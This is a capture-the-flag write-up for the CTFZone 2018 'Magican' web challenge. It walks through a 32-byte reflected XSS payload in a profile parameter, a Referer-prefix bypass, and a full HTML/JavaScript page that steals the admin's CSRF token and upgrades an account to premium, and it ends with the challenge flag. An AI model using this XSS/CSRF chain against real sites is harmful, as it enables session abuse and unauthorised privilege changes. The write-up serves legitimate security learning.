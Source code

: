 # Magican &ndash; write-up by @terjanq
*CTFZone 2018 Quals, 7/24/18*

## Description
We are provided with a simple website
![website]

and the only functionalities are `login/register`, `edit profile`, `support`. 

`Support` section allows us to send two types of messages to the admin: `Problems with Profile` and `Link to profile`. Each of them contains two fields: `Link to profile` and `Message`.  
![support]

`Edit profile` section allows us to edit our name.  
![profile]

## Quick research
- When we manually edit the `Link to profile` field to `http://ourwebsite` in the first option of `Support` section the admin will visit it and thanks to the `User-Agent header` we could see that the admin is using `Firefox 61.0`.  

- `HTTP response header` looks like:
```
< Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
< Content-Type: text/html; charset=UTF-8
< Referrer-Policy: origin
< Server: Apache/2.4.25 (Debian)
< X-Content-Type-Options: nosniff
< X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
< X-Powered-By: PHP/7.0.30
< X-XSS-Protection: 1; mode=block
```
and means that
    - we cannot include any external `scripts` and `styles`
    - we cannot embed the website into `iframe` on external website (however Google will allow it due to the *incorrect header*)
    - any attempt of `reflected XSS` should be blocked by the browser
    - we can send information out as the `image` or `xhr requests`
     
- Parameter `uuid` in the request `http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=<uuid>` is vulnerable to the injections ( XSS/CSS ) and is limited to `36 characters`. The lack of `XSS Auditor` in Firefox allows us to inject `XSS` in there.  
    ![xss]

- With the help of dirbuster, I found the `manage.php` page which is the admin's tool for changing `user status` to `premium`  
![manage]

- `profile.php` and `manage.php` are protected by the `hidden token`, and tokens are associated with the current session

- When we try to send `POST` data to the `profile.php` or `manage.php` with `Referrer` different than `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one` the error `Wrong Referrer` will appear. However, I found out that it only has to start with it and therefore the referrer `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one.example.com` will be accepted!.

- When we try to change our status to `premium`, `Permission Denied!` appears.

## Solution

Based on the findings it was obvious that our goal is to do a `CSRF` (Cross-Origin Request Forgery) attack, in order to change our status to `premium`, and the only missing piece is the `token`. It was a very tough task to steal and then send the token in `34 bytes`! With the help of [@gros] from my team we managed to create a payload `"><svg/onload=$.globalEval(name)` 32 bytes long where `name` is a just short form of `window.name` property. We assigned it by sending the admin to our webpage where we triggered `window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', <long payload>)` setting `window.name` to `<long payload>`.  
    The complete [forms.html] looked like:  
```HTML
<script>

      window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `

        $.get("manage.php", function(data){    
                var x = /name="token" value="([^"]+)/.exec(data);
                $.post("manage.php", {user_uuid: "6c1e8255-ceed-428a-8b48-74e13db8142d", token: x[1], status: "premium"}); 
         });

   `);

</script>
```
And after sending the admin to that page, on my profile I could find the flag: **ctfzone{0190af5705a38115cd6dee6e7d79e317}**





[website]: <./images/website.png>
[xss]: <./images/xss.png>
[profile]: <./images/profile.png>
[support]: <./images/support.png>
[manage]: <./images/manage.png>
[forms.html]: <./forms.html>
[@gros]: <#>